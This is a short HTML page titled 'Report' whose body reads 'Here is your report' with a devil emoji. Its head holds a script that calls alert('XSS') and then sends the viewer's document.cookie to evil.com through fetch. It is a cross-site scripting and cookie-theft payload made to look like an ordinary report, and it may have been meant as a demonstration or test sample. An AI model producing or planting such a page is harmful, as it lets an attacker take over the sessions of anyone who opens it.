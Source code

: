 <!DOCTYPE html>
<html>
  <head>
    <title>Report</title>
    <script>
      alert('XSS');
      fetch('https://evil.com/steal?cookie=' + document.cookie);
    </script>
  </head>
  <body>
    <h1>Here is your report 😈</h1>
  </body>
</html>
